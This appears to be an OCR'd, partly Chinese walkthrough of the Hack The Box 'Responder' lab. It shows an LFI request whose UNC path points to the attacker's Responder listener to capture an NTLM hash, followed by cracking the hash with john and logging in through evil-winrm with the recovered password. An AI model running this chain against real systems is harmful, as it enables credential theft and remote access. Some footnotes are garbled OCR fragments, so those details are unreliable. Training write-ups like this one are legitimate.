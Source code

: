 **TASK 10**

**We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?** 5985

**SUBMIT FLAG**

Steps:

edit /etc/hosts:

`target-ip  unika.htb`

尝试LFI(Local File Inclusion)，爆出具体的路径

![](/images/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/88538f07-e81a-409c-a293-fe36ae44e07a.png) [^1]

验证下路径是否正确，查看hosts文件

![](/images/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/7c4d5417-7768-45a0-93e6-ea421327738e.png) [^2]

使用responder来监听: `sudo responder -I tun0`

然后访问 http://unika.htb/?page=//\[Your_tun0_IP\]/anything

就会获取到hash

![](/images/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/9ab430bd-0840-42a7-9a12-200212f5935d.png) [^3]

把hash保存下来，`echo "Admin....." >hash.txt`

使用john来破解，`john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt`

![](/images/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/ac2f1a3d-1bce-4d95-9035-24990276422c.png) [^4]

接下来开始用nmap扫描，注意该lab有速度检测，建议使用T4速度：

虽然没有扫描出winRM端口，但通过Task 10，谷歌下可以知道说的是winRM，默认端口就是5985

![](/images/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/9fff90d4-11d7-44b4-993d-b5bc2cf4e614.png) [^5]

之后使用evil-winrm工具，即可获取到powershell

![](/images/a13d8a98-2f3f-11ed-ab02-c2af19d2d6e3/0265865a-662f-47ec-a065-aad699bbaebd.png) [^6]

之后去Users\\mike\\Desktop文件夹下面，得到flag

---

### **Note:**

[Responder.pdf](/attachments/Responder.pdf) [^7]

Ref: 

[Auto_Wordlists/file_inclusion_windows.txt at main · carlospolop/Auto_Wordlists (github.com)](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt) 

[Windows 远程管理 - Win32 apps \| Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) 


[^1]: C
[^2]: C
[^3]: C
[^4]: \[us- starting-point-vip-1-dhcp\]-\[10. 10. 14.34\]-\[htb- versunpan@pwnbox-base\]-\[\~\]
[^5]: - \[\*\]$ nmap -p- -T5 -sV $ip
[^6]: \[\*\]$ evil-winrm -i 10. 129.212.201 -u administrator -P 5985 -p badminton
[^7]: Responder Write-up
[^8]: Windows New Technology LAN Manager (NTLM)